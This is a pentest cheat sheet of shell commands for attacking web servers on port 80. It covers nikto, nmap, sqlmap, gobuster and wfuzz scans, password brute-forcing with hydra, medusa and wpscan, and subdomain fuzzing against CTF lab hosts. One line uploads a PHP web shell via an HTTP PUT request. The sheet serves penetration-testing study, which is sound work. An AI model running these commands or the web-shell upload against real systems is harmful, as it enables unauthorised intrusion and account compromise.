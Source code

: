 ## port 80 (HTTP)

### Enumeratng port 80
```bash 
nikto -h http://192.168.1.10/
nikto -host http://SERVER_IP/ -C all -output Apache.html -Format HTML 
curl -v -X PUT -d '<?php shell_exec($_GET["cmd"]); ?>' http://192.168.1.10/shell.php
dirb http://192.168.56.1 -r -o dirb.txt
sqlmap -u http://192.168.1.10/ --crawl=5 --dbms=mysql
cewl http://192.168.1.10/ -m 6 -w special_wordlist.txt
cewl http://runner.htb/ | grep -v CeWL > custom-wordlist.tx # For creating custom wordlist
medusa -h 192.168.1.10 -u admin -P  wordlist.txt -M http -m DIR:/admin -T 10
wfuzz -u http://10.13.37.11:5000/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404
nmap -p 80 -n -v -sV -Pn --script http-backup-finder,http-config-backup,http-errors,http-headers,http-iis-webdav-vuln,http-internal-ip-disclosure,http-methods,http-php-version,http-qnap-nas-info,http-robots.txt,http-shellshock,http-slowloris-check,http-waf-detect,http-vuln* 192.168.1.10
gobuster dir -u http://<address>/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -k -s '200,204,301,302,307,403,500' -e -x txt,php,html
nmap -p 80 --script=http-backup-finder --script-args http-backup-finder.url=/web-serveur/ch11/index.php challenge01.root-me.org
hydra -l <username> -P <wordlist> 10.10.46.122 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

# Site running wordpress
`WPSscan`
[Update] wpscan --update
[Enum Plugins] wpscan --url <http://> --enumerate p
[Enum Themes] wpscan --url <http://> --enumerate t
[Enum Users] wpscan --url <http://> --enumerate u
[BF on Enum Users] wpscan --url <http://> --wordlist <pass.txt> --threads 50
[BF on Admin] wpscan --url <http://> --wordlist <pass.txt> --username admin --threads 50
```
    
   ### subdomain enumeration

    gobuster vhost -u http://forge.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 50 -r
    
   or
    
    wfuzz -c -f domains -w /usr/share/wordlists/dirb/common.txt -u "http://cybercrafted.thm" -H "Host: FUZZ.cybercrafted.thm" --sc 200,403
    
   or
   
    ffuf -H 'Host: FUZZ.forwardslash.htb' -u http://10.10.10.183 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 0
   
   OR 
   
    wfuzz -c -f subdomains.txt -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm/" -H "Host: FUZZ.cmess.thm" --hl 107
OR
